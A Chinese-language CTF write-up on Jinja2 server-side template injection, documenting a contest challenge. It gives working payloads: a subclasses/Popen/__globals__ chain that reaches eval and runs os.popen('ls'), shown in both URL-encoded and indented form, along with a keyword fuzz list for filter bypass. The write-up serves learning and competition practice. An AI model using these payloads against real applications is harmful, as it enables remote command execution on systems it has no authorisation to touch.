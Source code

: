 # 2024/12/16 - 2024/12/24 - SSTI 模板注入

周五打楚慧杯做到的SSTI题，借此机会系统学习一下SSTI攻击
（虽然比赛很烂，但是题目有一定启发性；指做了4个小时

---

## SSTI 模板注入

指的是由于服务端的模板未对用户输入进行审查或给予过多的操作空间，导致模板会解析用户输入的内容并执行从而造成命令的注入。

最常见的框架就是 Python 的 Flask 模块中的 **Jinja2** 模板

### 漏洞扫描利用工具

先收集相关漏洞的自动化扫描利用工具：

* [tplmap](https://github.com/epinna/tplmap)
* [Fenjing](https://github.com/Marven11/Fenjing)

### Sal 的图集

> 原题来自2024年福建省大学生数据安全大赛-技能实践赛决赛

#### 解法1：Fenjing 工具自动破解（前提是知道是 SSTI 漏洞）
#### 解法2：手动破解

##### 1. 判断漏洞类型

先浏览页面，主页上找不到什么东西，但是搜索框点开后发现是一个空页面 `/search?name=` name 参数输入什么页面就直接返回什么，这个时候**初步判断是 SSTI 注入**。

##### 2. 测试注入

输入 `{{7 * 7}}` 页面返回结果 49，**基本可以确定是 jinja2 模板的 SSTI 注入**。

##### 3. 测试 payload

构造 payload

```py
name = {{''.__class__.__base__.__subclasses__()}}
```

成功回显一大串东西（用 python 简单模拟一下）

![](./img/1.png)

> 原理：在 python 中每个东西都是对象，都有对应的类。类定义了一堆诸如 `__class__` 的魔术方法，这些方法可以返回类相应的信息

这里通过 `__class__` 返回 str 类的类型
`__base__` 找到 str 类的基类
`__subclasses__()` 找到继承于这个基类的类
所以返回了这么多的类名

因为**我们的目标是执行系统命令**

所以找到能执行（系统）命令的函数或者包很重要：如 `sys` `os` `eval` `exec` 等

> 对于 python 的 module 而言，其作用域如图所示
> ![](./img/2.png)
> 其中 builtin 即 python 的内建函数，具有很大强大的函数功能

我们需要绕过作用域，引用内建函数执行命令

通过寻找带有 `__init__` 的类从而找到 `__global__` 中的 builtin

![](./img/3.png)

如图所示，上面没有 init，下面有（有地址）

一般选择 `Catch_warnings` 这个类，我选择了 `Popen` 这个类：（手动缩进）

```python
{%for i in  ' '.__class__.__base__.__subclasses__()%}
    {% if i.__name__ == "Popen"%}
        {{i.__init__.__globals__}}
    {%endif%}
{%endfor%}
```

由于我直接使用 `[]` 选取类时返回错误，怀疑对中括号进行了过滤，所以可以采用 Jinja2 模板的逻辑执行语句 `{%%}` 来构造，选取成功后也会输出一大段内容

![](./img/4.png)

这些就是全局（globals）中的所有内容

我们注意其中的 `__builtins__` 这一项，其内容是一个 dict，里面就是所有包含的内建函数：

![](./img/5.png)

同样的方法编写 payload 找到其中的 eval 函数即可进行调用

完整 payload 如下：（手动缩进）
（为了防止过滤，还使用了一些字符串拼接的办法）
url版：

```python
/search?name={%for%20i%20in%20%20%27%20%27.__class__.__base__.__subclasses__()%}{%if%20i.__name__%20==%20"Popen"%}%20{%%20for%20j%20in%20i.__init__.__globals__.values()%}{%if%20j.__class__%20==%20{}.__class__%}{%if%20%27eval%27%20in%20j.keys()%}{{j.eval("__im"+"port__("+"%27o%27+%27s%27).popen(%27ls%27).read()")}}%20{%endif%}{%endif%}{%endfor%}{%endif%}{%endfor%}
```

缩进版：

```python
{%for i in ''.__class__.__base__.__subclasses__()%}
    {%if i.__name__ == "Popen"%}
        {% for j in i.__init__.__globals__.values()%}
            {%if j.__class__ == {}.__class__%}
                {%if 'eval' in j.keys()%}
                    {{j.eval("__im"+"port__("+"'o'+'s').popen('ls').read()")}}
                {%endif%}
            {%endif%}
        {%endfor%}
    {%endif%}
{%endfor%}
```

最终成功执行命令

##### 4.一些其他东西

对于存在过滤的情况，过滤测试的 fuzz 如下：

```
}}, {{, ], [, ], \,  , +, _, ., x, g, request, print, args, values, input, globals, getitem, class, mro, base, session, add, chr, ord, redirect, url_for, popen, os, read, flag, config, builtins, get_flashed_messages, get, subclasses, form, cookies, headers
```

过滤绕过的方法在**参考资料 3**中有详细介绍

以上

---

## 参考资料

1. [Flask（Jinja2）服务端模板注入漏洞（SSTI）整理_jinja2模板注入漏洞-CSDN博客](https://blog.csdn.net/qq_46145027/article/details/130248535)

2. [Flask jinja2模板注入思路总结虽然这个漏洞已经出现很久了，不过偶尔还是能够看到。翻了翻好像只有python2的 - 掘金](https://juejin.cn/post/6844903566423883790)

3. [浅谈flask ssti 绕过原理 - 先知社区](https://xz.aliyun.com/t/8029?time__1311=n4%2BxnD0Dc764RDjx058bDyDI2e2KPDCzi00UeD)

4. [Python Flask中的SSTI和内存马 - 陈不二的猫](https://www.mewo.cc/archives/10/)